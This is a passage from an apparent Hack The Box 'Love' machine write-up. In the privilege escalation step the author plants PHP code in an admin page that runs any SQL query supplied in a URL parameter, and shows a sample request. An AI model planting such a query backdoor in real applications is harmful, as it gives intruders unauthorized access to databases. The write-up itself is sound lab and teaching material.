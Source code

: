 ## Privilege Escalation

Because I couldn't connect to the MariaDB port from my attack machine, I couldn't forward a port using `netsh`, and (for reasons I still don't understand) I couldn't pivot using LigoloNG, I eventually put this in `/admin/home.php` to facilitate arbitrary SQL queries:

```php
...
<h3>Votes Tally</h3>
  <span class="pull-right">
    <a href="print.php" class="btn btn-success btn-sm btn-flat"><span class="glyphicon glyphicon-print"></span> Print</a>
  </span>

<pre>
<?php
    if(isset($_GET['sql']))
    {
      $result = $conn->query($_GET['sql'], MYSQLI_USE_RESULT);
      if($result) {
        while($row = $result->fetch_assoc()) {
          echo json_encode($row) . "<br>";
        }
      } else {
        echo "Error: " . $conn->error;
      }
    }
?>
</pre>
...
```

Here's `http://love.htb/admin/home.php?sql=show%20databases`:

![](_/htb-love-20240904-7.png)
